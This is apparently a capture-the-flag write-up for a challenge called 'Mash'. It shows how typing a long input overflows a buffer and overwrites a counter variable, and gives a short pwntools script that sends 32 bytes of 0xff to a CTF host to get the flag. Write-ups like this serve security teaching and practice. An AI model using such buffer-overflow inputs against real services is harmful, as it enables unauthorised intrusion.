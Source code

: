 # Mash

Lets just run that binary
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
```

hmm, looks like we would have to press that enter button about 18446744073709551615 times.  Doesnt seem that doable, so lets try another approach.

Typing a bunch of `A`s we get:
```HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffff000a41
CURRENT COUNT: 0x4141414141414141
```

Interesting, looks like we can override the buffer here and have control over it.  After messing around a bit, I realized I could fill the buffer with `\xff * 32`, so thats what I did.
```python
from pwn import *

io = remote('ctf.ropcity.com', 31337)
#io = process("./mash")

padding = "\xff"*32
io.sendline(padding)

io.interactive()
```
And running the script we get the flag!
```
HOW FAST CAN YOU PRESS ENTER???
PRESS ENTER TO COUNT UP, FLAG WHEN CURRENT COUNT == 0xffffffffffffffff
CURRENT COUNT: 0000000000000000
osu{n3xt_1evel_butt0N_maSh1ng}
```

